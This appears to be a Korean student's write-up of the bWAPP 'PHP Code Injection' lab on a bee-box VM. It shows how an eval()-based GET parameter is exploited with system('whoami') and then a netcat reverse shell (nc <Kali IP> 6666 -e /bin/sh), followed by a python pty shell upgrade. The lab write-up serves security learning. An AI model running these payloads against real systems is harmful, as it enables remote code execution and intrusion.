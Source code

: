 ## PHP Code Injection

![chrome_UxFxP15OFQ](https://user-images.githubusercontent.com/79683414/134443409-9a005f07-5992-4a47-8042-1e594ae81687.png)

![chrome_nl8frdT2JG](https://user-images.githubusercontent.com/79683414/134443702-d254f75f-b673-464b-a420-28c577caf0ce.png)

OS Command Injection 과 같이, PHP 코드를 인젝션 하는 문제이다.

__message__ 를 클릭히니 "test"라는 문자열이 출력된다.

URL을 보니 GET 방식인 것을 알 수 있다.

message 변수에 test 대신 다른 문자열을 입력해서 공격하는 문제인듯 하다.

<br/>

<br/>

<br/>

### low

처음에 <script> 태그를 삽입해 보았는데 아무 반응이 없었다.

다음으로 문제 이름에 맞게 php 코드를 삽입해 보았다.

php injection 이 가능한지 테스트 해보기 위해  `';'`를 이용했다.

<br/>

<br/>

<br/>

![chrome_DBCgDN6MhD](https://user-images.githubusercontent.com/79683414/134445637-2231bcd6-b69d-4cd5-a6ff-01daf8edfa0d.png)

pay : _msg;system("whoami)_

php 코드가 성공적으로 삽입되었다.

이전 문제들에서는 불가능 했던 php 코드 인젝션이 가능한 이유를 찾기 위해 코드를 살펴보았다.

<br/>

<br/>

<br/>

![Code_ZU4xvxhvCv](https://user-images.githubusercontent.com/79683414/134446502-f465b87d-0063-4990-b0cd-3c6fd61e0770.png)

__@eval__ 함수는 매개변수(String) 을 PHP 코드로 취급하겠다는 함수이다.

따라서 위에서 조작한 message 의 내용이 그대로 PHP 코드가 되는 것...

"이걸로 쉘 획득하세요" 라고 말해주는 것 같았다.

> PHP-eval() : https://www.php.net/manual/en/function.eval.php

<br/>

<br/>

<br/>

OS Command Injection 에서 했던 것 처럼,

칼리에서 포트를 리스닝으로 열어 놓고 bee-box에서 nc 명령을 입력했다.

- Kali : `nc -lvp 6666`

- bee : `msg;system("nc <Kali IP> 6666 -e /bin/sh")`

![chrome_8TOzxhRz8z](https://user-images.githubusercontent.com/79683414/134449912-7156715f-00a0-43f6-a824-d522470e6905.png)
![vmware_7POsRRx4rB](https://user-images.githubusercontent.com/79683414/134449957-57377247-7e7a-4e81-9e92-27351c19dd40.png)

<br/>

<br/>

<br/>

성공적으로 리버스 쉘을 획득했다.

원격으로 쉘을 획득했을 때 프롬프트가 보이지 않아서 불편하기도 하고,

vi 도 사용할 수 없다.(가능은 하지만 정상적인 출력을 하지 않아서 불편;;)

여기서 사용하는 재밌는 개념이 pseudo-terminal 이다.

<br/>

`python -c 'import pty;pty.spwan("/bin/bash")'`

![vmware_YqFUZVk0yH](https://user-images.githubusercontent.com/79683414/134450518-a092c9c9-ce0b-4a36-a64f-87e6ebc2f32f.png)

<br/>

<br/>

<br/>

~~tty, pty 는 처음 접하는 개념이라 정확하지 않지만...~~

'Teletypewrite', 일반적으로 터미널이라 부르는 것들이다.

리눅스에서 사용하는 터미널의 종류는 tty, ttys, pts, pty으로 `/dev` 에 속해있다.

자신의 터미널을 확인하려면 `tty` 를 이용하면 된다.

- tty : 일반 CLI 콘솔
- ttys : 시리얼 tty
- pts : 기본 xwindows를 위한 가상 콘솔(xwindow 는 GUI 환경을 뜻함)

> __Pseudo-Terminals__
>
> https://www.gnu.org/software/libc/manual/html_node/Pseudo_002dTerminals.html

<br/>

<br/>

<br/>

위의 명령어의 정확한 동작방식은 아직 이해되진 않지만,

pty를 새로 생성해서 python이 프롬프트를 띄워주는? 방식으로 예상 중 이다....

